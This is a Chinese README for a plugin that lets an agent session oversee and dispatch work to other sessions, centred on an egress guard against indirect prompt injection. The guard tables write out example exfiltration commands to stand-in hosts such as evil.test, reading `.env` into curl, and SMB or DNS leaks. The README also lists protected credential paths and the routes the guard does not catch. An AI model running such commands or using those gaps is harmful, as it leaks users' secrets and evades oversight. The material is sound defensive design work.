

# dsh-plugin-shadow（影子总控）

> 你自己的 DSH 会话管理不过来时，让一个会话站在你的视角上，替你盯着进度、把活派给正确的会话。

**仓库**：[RD2100/rd-shadow](https://github.com/RD2100/rd-shadow)　**包名**：`dsh-plugin-shadow`（仓库名与包名不同，安装时用包名）

*[English](README.en.md)*

影子是一个**独立的 DSH 会话**，住在自己的目录里，拥有三件事：

1. **看见**你的所有工作区和会话（谁在忙、谁睡着、谁归档了）；
2. **读**任意一个会话的状态和最近事件；
3. **派活**——把一条消息投递到指定会话，并拿到可核对的投递证据。

它不复制旧工作台的账本、记忆、订阅池。它只用官方的会话、审批、权限接口，因此**每一件事都能从会话日志重建**。

---

## 状态

| 能力 | 状态 |
|---|---|
| 侧栏入口 / 候选列表 / 新建 / 归档 | ✅ 可用 |
| 权限身份（影子目录内的会话自动获得 `auto` 档） | ✅ 已验证 |
| `shadow_targets` / `shadow_inspect` / `shadow_dispatch` | ✅ 已验证（含真实投递与结果核对） |
| 不可逆操作拦截 | ⚠️ 部分——见[权限模型](#权限模型) |

版本 `0.1.x` 是**可自用、尚未广泛验证**的状态。下面[已知限制](#已知限制)里列的每一条都是实测出来的，不是猜测。

---

## 要求

| 项 | 要求 |
|---|---|
| DSH | `dsh-desktop-next 2.0.20-next`（harness 包 `0.2.1-rc.3`）。本插件直接依赖该版本的内部服务与工具注册契约，**不保证跨版本可用** |
| Node | `>= 22.19` |
| 评审插件 | **强烈建议**在 profile 的 bundles 里包含 `@deepseek-ai/dsh-experimental-auto-review`。**没有它，影子会退化成"全盘读写 + 永不审批"**，见[安全警告](#安全警告) |
| profile | 带 GUI 的 web / desktop profile（本插件有浏览器半边） |

---

## 安装

### 桌面版（desktop profile）

桌面版 profile **不能**用 `dsh plugin` 命令行管理（DSH 明确保留给 Electron 应用）。用应用内的插件管理（设置里的插件页），或让一个 agent 调 `plugin_manager` 的 `install_bundle`：

```
install_bundle  spec = https://github.com/<你的账号>/dsh-plugin-shadow
```

（或本机的绝对路径、tarball URL、npm 包名——管理器都接受。）

### web / tui profile

```sh
dsh plugin --profile web add <npm 包名 | git 地址 | 绝对路径>
```

### 手动（任何 profile）

在 profile 的 `package.json` 里同时做两件事：

```jsonc
{
  "dsh": { "profile": { "bundles": ["dsh-plugin-shadow"] } },
  "dependencies": { "dsh-plugin-shadow": "file:D:/path/to/shadow-plugin" }
}
```

---

## 首次配置

所有配置都在插件行上（`cordis.patch.yml`）：

```yaml
- id: shadow
  name: 'dsh-plugin-shadow'
  config:
    shadowPresetId: shadow        # 标记影子身份用的 agent preset
    permissionPreset: auto        # 影子会话的权限身份
    shadowDir: '~/dsh-shadow'     # 影子自己的目录（`~` 会展开成家目录）
```

- `shadowDir` 是**影子的身份**：住在这里的会话才算影子，才拿到权限身份，才有那三个工具。
- 省略 `shadowDir` 时 host 侧用默认 `<家目录>/dsh-shadow`；**浏览器半边不支持默认值**，所以请显式写一行。
- 首次使用会在该目录创建 workspace；再点一次会复用，不会重复注册。
- `enforcePermissionPreset`（默认 `true`）：每次会话被创建/恢复都把权限改回 `permissionPreset`。**如果你会手动切 `danger-full-access`，把它设为 `false`**——那样插件只钉那些日志里还没有权限选择的会话，你的手动切换会被保留。
- 出网相关的六项：`egressAllowlist`（默认空 = 每次都问）、`protectedPaths`（默认七个片段）、`taintScope`（默认 `session`）、`canaryValues`（默认空）、`approvalMemory`（默认 `turn`）、`statefulShell`（默认 `false`），见下面几节。

---

## 架构



三条要点：

1. **能力跟着预设走**：三个工具只注册在 `shadow` 预设的 agent 作用域里，别的会话看不到。
2. **身份跟着目录走**：`shadowDir` 里的会话才被钉 `auto`，才被视为影子。
3. **投递可追溯**：消息带 `source={kind:'agent-message'}`，接收方日志能重建"谁派来的"；回执里的 `inbox@seq`/`user@seq` 指向目标日志的具体事件。

---

## 三个工具（模型可见）

| 工具 | 作用 |
|---|---|
| `shadow_targets` | 列出工作区与会话：id、实时状态（`idle`/`cold`/`busy`）、归档与子代理标记、标题 |
| `shadow_inspect` | 只读查看一个会话：状态、工作目录、当前模型、事件序号；可选分页读事件（`afterSeq`/`limit`），头部会告诉你本页之后还有多少条、末尾 seq 是多少 |
| `shadow_dispatch` | 向一个会话投递一条消息。消息带 `source={kind:'agent-message', form:'relay', senderSessionId}`，**接收方的日志能重建"是谁派来的"** |

投递是幂等的：同一次工具调用被重放（崩溃恢复、宿主重试）得到同一 message id，不会重复投递；**想再发一次就重新调用**——那是新消息，不是重复。

回执里的 `status`：

| 值 | 含义 |
|---|---|
| `durable` | 已写入目标日志并被采纳进轮次（`user/message` 已出现） |
| `accepted` | 已进入目标收件箱，但还没被采纳 |
| `already-delivered` | 这条消息之前已经投递过（同一个 message id 已在目标日志里） |
| `rejected` | 未投递，`reason` 说明原因（`busy`/`pending`/`archived`/`workspace-session-mismatch`/…） |
| `unknown` | **发送后失去确认能力。不要重试**——重试会产生新的 message id 造成重复投递；请报告并用 `shadow_inspect` 核对 |

---

## 权限模型

影子会话的权限身份固定为 `auto`：**全盘沙箱 + 逐次评审**。评审是官方的 `dsh-experimental-auto-review`，它的契约是：

| 档 | 范围 | 处置 |
|---|---|---|
| low | 项目内普通读写、分析、测试、构建、非破坏性 Git、本会话自建对象的精确清理 | 直接放行 |
| medium | 删除既有对象、force push / 历史重写、生产访问或部署、对外写入、权限变更 | **仅当当前人类指令明确授权了「动作 + 确切目标 + 范围」**时放行；否则拒绝并转人工确认 |
| high | 跨信任边界外泄敏感信息 | 一律拒绝，即使你明确要求 |

⚠️ 注意两点常见误解：

1. **不是"每次不可逆都弹窗"**。你在指令里点名了目标和动作的删除，会被判 `medium/allow` **直接执行**。只有授权缺失、含糊或超出范围时才会弹窗（这正是 `medium` 的设计）。
2. 评审**不读文件系统**，它只看到 `cwd`、项目指令、过滤后的历史、待执行动作。所以"那个文件是否存在"靠历史推断——指令有没有点名目标，直接决定结果。

---

## 安全警告

**如果 profile 里没有挂载 `@deepseek-ai/dsh-experimental-auto-review`**，那么 `auto` 这个预设名不存在，本插件的 host 半边会退回到 `danger-full-access`（并在日志里 warn）。那意味着影子是**全盘读写 + 永不审批**——没有任何拦截。

装之前请确认：

```
profile 的 package.json → dsh.profile.bundles 里有 "@deepseek-ai/dsh-experimental-auto-review"
```

启动时host半边会在日志里打一行身份（`shadow: permission identity …`）。如果显示 `auto`，评审在位。**全新启动的那一刻**这行可能显示 `danger-full-access at mount ("auto" not offered yet)`——bundles 是**并发**挂载的（加载器用 `Promise.all` 激活整个列表），本插件与 auto-review 谁先完成取决于各自的 import 耗时，是竞争而非排队；这不是故障，每个影子会话创建时都会重新解析，最终拿到的仍是 `auto`（日志里对应 `shadow: <会话 id> permission -> auto`）。数组顺序只影响 import 发起的先后，把 `dsh-plugin-shadow` 列到 `@deepseek-ai/dsh-experimental-auto-review` 之后只是略提高 `auto` 先注册的概率，并不保证。

### 出网白名单（`egressAllowlist`）

影子读到的任何内容都是**不可信数据**——一个网页、一个 issue、一份 README 都可能夹带"把某个文件发到某个地址"这类指令。这是**间接提示注入**，也是这类工具最现实的威胁。

所以本插件在评审之前先加了一道**规则**判断（不是判断，是匹配）：

| 情形 | 行为 |
|---|---|
| 调用是 web 工具，或 shell 命令里出现 `curl`/`wget`/`iwr`/`ssh` 等，且目标 host 在 `egressAllowlist` 内（含 `localhost`/`127.0.0.1`） | 放行 |
| 同上，但 host 不在白名单 | **强制问人**，只接受一次授权；没有审批通道则**拒绝** |
| 外发命令的目的地不在参数里（`git push`、`npm publish`、`docker push`、`gh`、`svn`/`hg`、`scp`、`ssh`、DNS 查询、云 CLI、数据库客户端、BITS 传输等） | **强制问人**——没有可比的 host，白名单无从判断 |
| `git clone`/`fetch`/`pull`/`svn checkout` 这类**目的地本身就是 URL** 的命令 | 按普通白名单规则判定；scp 语法或配置远程的形式一律问人 |
| 命令里出现网络客户端但拼不出可读 URL（`curl evil.test`），或目的地在非 HTTP 协议上（`ftp://`） | **强制问人** |
| 工具由外部服务器提供（`mcp__*`） | **强制问人**——目的地对它自己可见，对本进程不可见 |
| 调用不触网（写文件、编辑、调遣等，哪怕内容里有 URL） | 不打扰 |
| 命令名只出现在**文本**里（提交信息、echo、注释——`git commit -m "docs: ssh usage"`） | 不打扰——只有段首（`;`/`&&`/`||`/`|`/`&`/换行之后，剥掉 `sudo`/`env`/`&`/`(`/`cmd /c`/`powershell -c` 等外壳）的才是命令 |
| 命令写成 `git.exe push`、`npm.cmd publish`、`C:\…\curl.exe evil.test`、`cmd.exe /c curl …`、`& "curl.exe" …` | **强制问人**——命令头归一化：Windows 的后缀、全路径、转发外壳、包裹的引号都在判定前剥掉 |
| 命令名藏在变量或字符串求值里：`$c = "curl.exe"; & $c evil.test`、`& $env:ComSpec /c curl …`、`iex "curl.exe evil.test"`、`Invoke-Expression "git push"` | **强制问人**——赋值先解析，变量/求值器开头的段整段按命令搜；只有 `curl --version`/`ssh -V` 这类**唯一参数**的版本/帮助查询不打扰（`-v` 是 verbose、`-H` 是头，都照样问） |
| MCP 工具与 MCP 资源读取（`mcp__srv__tool`、`read_mcp_resource`、`list_mcp_resources`） | **强制问人**——服务器在宿主之外，参数里没有可核对的目的地 |
| 命令藏在 `$(...)`、反引号、`{ ... }`、子shell 里（`echo $(curl https://evil.test)`、`if ($true) { curl … }`） | **强制问人**——这些是 shell 真正会执行的内容，按命令分析 |
| URL 出现在数据类命令的参数里（`git commit -m "see https://evil.test"`、`echo`、`Write-Output`、构建工具） | 不打扰——那是散文，不是目的地 |
| 参数指向另一台机器的共享路径（`copy secret.txt \\evil.test\share\`、文件工具写 `\\host\share\`、`//host/share/`） | **强制问人**——SMB 传输长得和本地写一样。读也问：另一台机器的内容进来，和 `web_fetch` 问的是同一个信任问题。白名单按 URL 同一套规则回答（污点时不放行），内部文件服务器不会变成静不掉的弹窗；本机共享与 `\\?\C:\…` 长路径不受影响 |
| DNS 名字查询（`ping secret.evil.test`、`tracert`、`pathping`、`Test-Connection`、`Test-NetConnection`/`tnc`、`host`、`drill`、`nslookup`、`dig`、`Resolve-DnsName`） | **强制问人**——名字本身随 DNS 查询离开，即使后面没有连接。按名字判定：白名单内的主机照旧静默，地址字面量（`ping 8.8.8.8`）不需要查询、不带数据，静默 |
| `npm run release` / `make deploy` | 按**脚本体**判定：读得到 `package.json`/`Makefile` 时按体里的命令判定（最多两层，环安全），读不到或目录未知时与以前完全一样——未知脚本不是新弹窗 |
| `curl https://ok.test/ evil.test` | **强制问人**——客户端接受多个目的地，第二个不需要 scheme，白名单覆盖的那个不给另一个开通行证。取值型 flag（`-o`/`-H`/`-d`…）的值是元数据不是目的地 |
| 替换嵌套比守卫扫得更深（`echo $($($(… curl host …)))`） | **强制问人**——任何有限深度都能被多嵌一层绕开，所以"这段文本没被读完"的诚实回答是问人，而不是放行 |

关键点：**查的是目的地，不是内容**。payload 用 base64、拆开、换编码都改了不目的地，所以这条规则绕不过去；而内容正则可以被绕过，所以没做内容扫描。

**作用域**：守卫只作用于**影子会话**——它注册在 `preset-shadow` 这个 agent preset 的作用域里（见 `cordis.patch.yml`），你自己的会话不受影响。这不是疏漏：影子才是读不可信内容（网页、issue、别人的 README）的那一方，你的会话本来就可信。同样因为作用域，CLI 与 API **默认**碰不到守卫——无头 runner 不组合 preset，实测如此（见 `E2E-GUARD.md`）。但这不是架构上限：把 `shadow-tools` 那一行插到 profile 层，无头会话也会挂上守卫，本轮已实测到它激活；差的只是无头模板自己的工具执行路径修好。

默认白名单为空 = 每次外网请求都问你。嫌烦就把常用域加进去，但记住**白名单本身就是一条通道**。

### 读过敏感文件之后，白名单失效

更好的做法不是"猜内容敏不敏感"，而是**记录它读过什么**。`protectedPaths` 列出一组**文件名/路径片段**（默认：`.credentials`、`.env`、`id_rsa`、`id_ed25519`、`.pem`、`.pfx`、`secrets`）。

- 一次工具调用只要**提到**其中一个片段（读它、列它的目录、命令里写了它），该会话就被标记；
- 标记之后，**该会话的所有外发都要问你**——哪怕目标是白名单里的网站；
- **调遣也带标记**：发送方被标记过、或消息正文里提到受保护路径时，目标会话接手这个标记。否则「A 读 `.env`、A 调遣 B、B 把内容发出去」是唯一一条谁都不问的出路——调遣是本地调用，按本地调用判定，而 B 自己的标记是空的；
- 标记**默认持续到会话结束**（`taintScope: 'session'`）：数据还在模型的上下文里，轮次边界不会让它"被忘掉"，所以「第 1 轮读 `.env`、第 2 轮把密钥当搜索词发出去」这条路是堵着的。嫌吵就设 `taintScope: 'turn'`，标记在轮次边界清除——那是用两轮之间的窗口换安静。

为什么这样比"内容过滤"可靠：**它读过什么是确定的**（参数里写着路径），而**什么算敏感是不确定的**（同一串字符，在配置文件里是密钥，在文档里是示例）。标记不看你发了什么，只看你之前碰过什么，所以 base64、拆成两半都绕不过去。

代价说清楚：日常是"没碰敏感文件 → 发白名单不打扰你；碰了 → 之后发什么都先问"，**读一次 `.env` 之后，这个会话里连正常的抓网页、正常的搜索都会问你**，直到会话结束（或把 `taintScope` 改成 `turn`）。这是有意的：宁可多问，不给"这轮读、下轮发"留窗口。

### 两条路一起用：诱饵密钥 + 审批记忆

上面那条规则的毛病是"宽"——它凭"碰过 `.env` 这个文件名"就怀疑之后的一切。有两条更准的补充：

**诱饵密钥（`canaryValues`）**：在 `.env` 里放一个**假的**密钥（哪儿都不通用、只有你知道），把它填进配置：

```yaml
    canaryValues:
      - 'AKIAFAKEFAKEFAKE'      # 放在 .env 里的假 AWS key
      - 'ghp_fakefakefakefake'  # 放在 .env 里的假 GitHub token
```

之后任何外发调用的参数里**出现这串字符**，守卫一律问人——不需要污点、不需要白名单配合。为什么这条可以看内容而别的不行：**这串字符是唯一的、假的、没有任何正当用途**，它出现在出口就只有一种解释。通用密钥正则那种"猜"才会误报，诱饵不会。提示里只说是第几条诱饵，**不会把这串字符回显出来**（提示词和日志都不该带上它）。

它的边界说清楚：**诱饵只在密钥被写进参数时才看得见**。`curl -d "$(cat .env)"` 这种写法里，密钥是运行时才从文件读出来的，参数里没有它——诱饵看不见，但 `.env` 被提到了，污点照样会问。两条机制因此是互补的，不是互相替代。

**审批记忆（`approvalMemory`）**：同一个调用（工具名 + 参数完全一致）批准过一次，在窗口期内不再问。`turn`（默认）= 本轮内；`session` = 本会话内；`off` = 每次都问。为什么只记"完全一致"：URL 不一样、查询词不一样、命令不一样，就是**不同的调用**——差别恰恰是载荷能藏身的地方。所以它治的是"同一个问题问两遍"（轮询、重试、循环），治不了"每次查询都不同"的搜索；后者要靠诱饵。

**推荐的搭配**：配了诱饵之后，就可以把 `taintScope` 设回 `turn`——真正重要的那条路（真密钥出去）由诱饵守着，误报还低；宽泛的路径标记只负责兜住"说不清是什么的敏感数据"，窗口收窄到一轮，吵声立刻下来。

**跨调用的间接（`statefulShell`）**：别名、函数、脚本在**上一次**调用里定义、**这一次**调用才用——`Set-Alias x curl` 之后 `x evil.test`。同一条命令行内的自我定义（`$c = "curl"; & $c …`、`function x { & curl @args }; x …`）都按调用判定；跨调用的那份只有 shell 真的保持状态时才存在。默认 `false`：出厂预设的 shell 是全新进程，两次调用之间什么都不记得，记住它只会制造一个关于不存在命令的弹窗。**只有部署用的是持久 shell**（`pwsh_persistent`、终端会话）时才设 `true`——那是关于部署的声明，由操作员做；每个会话记住的名字有上限（200）。

**这条规则覆盖不到**：程序**内部**发起的 DNS 查询（命令行里写了名字的按名字判定，程序自己解析的名字不在参数里）、写到本地同步目录再由别的程序送出（`\\host\share\` 这种共享路径本身算目的地，已覆盖）、**重定向**（白名单域名 302 到别处，守卫只看初始 URL）、**跨调用的间接**（上一次调用定义、这一次调用才用的名字，仅在 `statefulShell: true` 时记得；`npm run`/`make` 的脚本体在读得到清单时按体判定，读不到时与以前一样）、解释器用非 URL 方式发出的请求（`python -c "os.system('ssh host')"`——目的地不在参数里，客户端名也不在段首）、把目的地编码/拆写得本守卫认不出的 URL 拼法、以及由外部服务器提供且参数里不带目的地的工具（`mcp__*`，这类一律问人，但问的是"要不要用这个工具"而不是"发去哪里"）。它是一条减速带，不是证明。
---

## 已知限制

| 限制 | 说明 |
|---|---|
| **每次工具调用都要过一次评审** | 实测单次 6–53 秒（`glob` ~7-15s、`read` ~6s、普通 `pwsh` ~8-24s、删除类 38-53s）。影子看起来"慢"是正常的，不是卡死 |
| `medium` 判定依赖模型判断 | 同一条命令，指令写法不同可能得到不同结果。这是官方评审的固有特性 |
| 评审需要模型额度 | 额度耗尽时评审失败 → 调用被拒（fail closed），不是放行 |
| 只支持带 GUI 的 profile | client 半边需要浏览器环境 |
| Windows 路径 | 默认值跨平台，但 `shadowDir` 若写死 Windows 绝对路径，换平台需改配置 |
| 未做跨 DSH 版本兼容 | 见[要求](#要求) |

---

## 开发与测试

```sh
npm test                        # 全部离线检查（纯核 + 预检 + 仿真 + patch + 发布产物自足性）
npm run pack:check              # 只验发布产物：files 覆盖、入口存在、只复制这些也能跑
node tests/run.mjs --deployed   # 额外对已安装副本再跑一遍（需 SHADOW_PROFILE_TOOLS）
npm run sync -- --profile <profile 目录>   # 把源码同步进 profile 并自动验证
npm run fingerprint             # 打印本仓库运行代码的内容哈希，与宿主日志里的 build 行比对
npm run judge                   # 全自动一轮：判定 → 通过就重启宿主 → 核对宿主自报行
```

改一行 `lib/*.js` 之后的最短闭环：`npm test` → `npm run sync` → `git commit` → `npm run judge`。
最后一条自己判定「部署副本是否等于这个提交」，通过才重启，再核对宿主日志里的
`shadow: build <哈希>`，全程记进 `<DSH_HOME>/.shadow-verify/ledger.jsonl`。

| 套件 | 覆盖 |
|---|---|
| `tests/shadow-dir.test.mjs` | 目录规则的唯一所有者：可移植默认、`~` 展开、归一化比较 |
| `tests/host-preflight.test.mjs` | host 半边：启动预检（缺服务点名、版本可读、预检失败不拖垮插件）与权限钉住策略（默认强制覆盖 / `enforcePermissionPreset:false` 时保留用户选择） |
| `tests/client.test.mjs` | 浏览器半边：真实 bundle 在沙箱里加载，校验 loader id、导出的 `inject`、侧栏 slot 注册、字典中英齐全，并驱动 `createShadow` 的全部返回形态（含"工作区已存在"这个曾经的回归） |
| `tests/dispatch-core.test.mjs` | 纯判断核：身份派生、messageId、证据扫描、状态机、渲染格式，以及**出网守卫**的完整判定（白名单/子域/本机/凭据与端口/嵌套参数；shell 段首与散文豁免、可执行 span、命令头归一化、命令行自我定义、污点、fail closed——含端到端首次运行录到的 8 个真实调用；UNC 共享路径、DNS 名字查询、`npm run`/`make` 脚本体、第二个无 scheme 目的地、嵌套上限 fail closed、调遣污点传播） |
| `tests/tools-sim.mjs` | 真实 `lib/tools.js` + 假宿主：投递/幂等/拒绝码/并发串行化/目录列举，以及守卫挂在 `tools/pre-execute` 上的行为（问人后放行、被拒即停、无审批通道拒绝、审批抛错拒绝、**守卫自身抛错也拒绝且不弹窗**、白名单不问、不触网不问；`npm run`/`make` 脚本体解析、`statefulShell` 跨调用记忆、调遣把污点带给目标会话） |
| `tests/patch.check.mjs` | 解析 `cordis.patch.yml`（含 `!!js`），断言影子行完好；需要 `js-yaml`（`npm install` 后即可，也可用 `JS_YAML` 指定模块路径） |
| `tests/build-stamp.test.mjs` | 构建戳的契约：哈希跟着字节走（改一个字节、加一个文件都会变），读不到时报 null 而不是炸掉挂载 |
| `tests/verify-restart.test.mjs` | 重启裁判的契约：只有「部署副本逐字节等于某个提交」才放行；用一个假宿主把全自动那一轮跑通，并钉住「判定不过就绝不动手」 |
| `tests/restart-host.test.mjs` | worker 的契约：起它必须走 WMI/schtasks（在宿主进程树外，否则会被自己的 taskkill 收掉），以及每种失败形状都要落到账上 |

仿真器用 `tests/dsh-tools-stub.mjs` 复刻官方 author-schema 校验——工具定义若在真实注册处会抛错，测试里同样会抛。

**启动预检**：host 半边在 apply 时检查 `agents` / `llm` / `sessionController` / `sessionQuery` / `sessions` / `tools` / `workspaceRegistry` 是否齐全，缺哪个就点名哪个并给出期望的运行时版本——这样版本不匹配时你看到的是一行可行动的告警，而不是"影子会话起不来"。

### 改动如何生效（踩过的坑）

- DSH 的 HMR **监视 profile 配置，但不监视插件的 `lib/*.js`**。改完代码复制进 profile 后，正在跑的实例**不会**加载新代码，必须重启。
- 更麻烦的是：改 `cordis.patch.yml` 会触发一次配置重载，它会**重新导入 `lib/index.js`，却可能复用缓存里的旧模块**——如果这时两个文件版本不一致，插件会加载失败：

  ```
  SyntaxError: The requested module './shadow-dir.js' does not provide an export named 'expandShadowDir'
  shadow (dsh-plugin-shadow): failed to import … 1 entry did not activate
  ```

  磁盘上的文件其实是自洽的，只是 HMR 的模块图陈旧；**重启必然恢复**。判断方法：日志里有 `did not activate`，且此后没有新的 `shadow:` 日志。

   重启成功后，日志里应该正好有这三行，排查时值千金：

   ```
   shadow: directory D:\DSH\shadow        ← 生效目录（配置对不对看这一行）
   shadow: build <12 位哈希>               ← 我加载的就是这些字节
   shadow: permission identity auto        ← auto 可用 = 评审在位
   ```

   中间那行是**构建戳**：宿主自报它加载的 `lib/*.js` 的内容哈希。重启后拿它和仓库里
   `npm run fingerprint` 的输出对一下，相等才说明新代码真的在位——比"看文件时间戳"更硬，
   副本被改过、被别处副本顶替、或只拷了一半，哈希都会不一样。不想跑探针的话，
   这一行就是"改动生效了吗"的完整答案。

  第二行若变成 `using "danger-full-access" instead` 的告警，说明 profile 里没挂 `@deepseek-ai/dsh-experimental-auto-review`——那样影子就是**全权不审**。

  > 冷影子会话的日志里最后可能记着 `danger-full-access` + `never`：那是 auto-review **关机时**把 `auto` 翻回去的结果，不是配置错误，也不影响安全（冷会话跑不了工具）。会话被打开时会重新钉回 `auto`，日志出现 `shadow: <id> permission -> auto`。

- 因此同步流程必须以这一步收尾（`npm run sync` 一次做完：按磁盘枚举 `lib/*.js` 复制，再跑 `--deployed`，半同步立刻失败）：

  ```sh
  npm run sync -- --profile <你的 profile 目录>
  ```

  等价的手工做法：

  ```sh
  SHADOW_PROFILE_TOOLS=<profile>/node_modules/dsh-plugin-shadow/lib/tools.js \
    node tests/run.mjs --deployed
  ```

- **重启也可以不点**：`npm run judge` 把「该重启吗 → 重启 → 生效了吗」一条命令跑完。
  它先判定部署副本的每个字节是否等于你指定的那个提交（含 `cordis.patch.yml` 与版本号），
  通过才把重启交给 worker；全程写进小本本
  （`<DSH_HOME>/.shadow-verify/ledger.jsonl`，`npm run judge status` 查看）。
  代价说清楚：它不等应用体面退出，万一有别的任务在跑会被硬断——产品自带的
  「退出并重启」要人确认的就是这件事。要体面那一下，就自己点托盘，然后跑
  `npm run judge -- verify` 让裁判核对。详见 `E2E-GUARD.md`「重启裁判」一节。

  杀、拉、核对三件事都由 `scripts/restart-host.mjs` 做，它由 WMI 或计划任务服务承载，
  **不在宿主的进程树里**——裁判自己跑在树里，它的 taskkill 会连它自己一起收掉
  （0.7.1 实测过，整轮以「应用不退」告终）。裁判起完 worker 就返回。

### 目录结构

```
lib/index.js         host 半边：给影子目录里的会话钉权限身份
lib/tools.js         三个模型可见工具的注册与效应
lib/dispatch-core.js 纯判断核（无 host 依赖，可被 plain Node 直接导入）
lib/shadow-dir.js    「影子目录」规则的唯一所有者
lib/build-stamp.js   构建戳：挂载时自报加载了哪些字节
lib/client.js        浏览器半边：侧栏入口与面板
cordis.patch.yml     preset + 三条插件行
scripts/verify-and-restart.mjs  重启裁判：判定 → 重启 → 核对宿主自报行
scripts/restart-host.mjs        重启 worker：在宿主进程树之外拉起应用并核对
tests/               离线验证资产
DESIGN.md            设计（不变量、权限模型、里程碑）
DISPATCH-SPEC.md     实现规格（运行时契约、状态机、幂等、验证记录）
```

---

## 发布前待办（维护者）

- [x] `repository` / `homepage` / `bugs` 指向 [RD2100/rd-shadow](https://github.com/RD2100/rd-shadow)
- [x] 英文 README（[README.en.md](README.en.md)，两版互相链接）
- [ ] 截图放进 README
- [ ] 决定是否发布到 npm（不发布则只能从 git 或本地路径安装）
- [x] CI：至少跑 `npm test`（`.github/workflows/test.yml`，ubuntu/windows × node 22/24）
- [ ] 设计文档英译（`DESIGN.md` / `DISPATCH-SPEC.md` 目前为中文）
- [x] 出网守卫端到端验证（见 [E2E-GUARD.md](E2E-GUARD.md)）：提示词、判读方法、首次运行结果表与复跑路径都已归档；最后一环（影子会话里验证修复生效）待补

### 发布到 npm 的步骤

预检（2026-10-29 核过）：包名 `dsh-plugin-shadow` 在 npm 上未被占用；`npm pack --dry-run`
产出 16 个文件 135 kB 压缩包（`lib` + patch + LICENSE + 全部文档）；`npm run pack:check` 全过；
CI 绿；tag `v0.5.0` 已推。

```sh
npm whoami                 # 未登录会报 ENEEDAUTH——发布需要维护者凭据
npm run pack:check         # 产物自足性：files 覆盖、入口存在、只复制这些也能跑
npm publish --access public
```

发布后核对：`npm view dsh-plugin-shadow version` 返回 `0.5.0`；从别处
`npm install dsh-plugin-shadow` 后 `lib/tools.js` 可加载。

安装方式（发布前也可用）：`npm install git+https://github.com/RD2100/rd-shadow.git`，
或把仓库路径直接写进 profile 的 bundles。本机开发用 `npm run sync -- --profile <profile 目录>`。

---

## 许可

MIT，见 [LICENSE](LICENSE)。
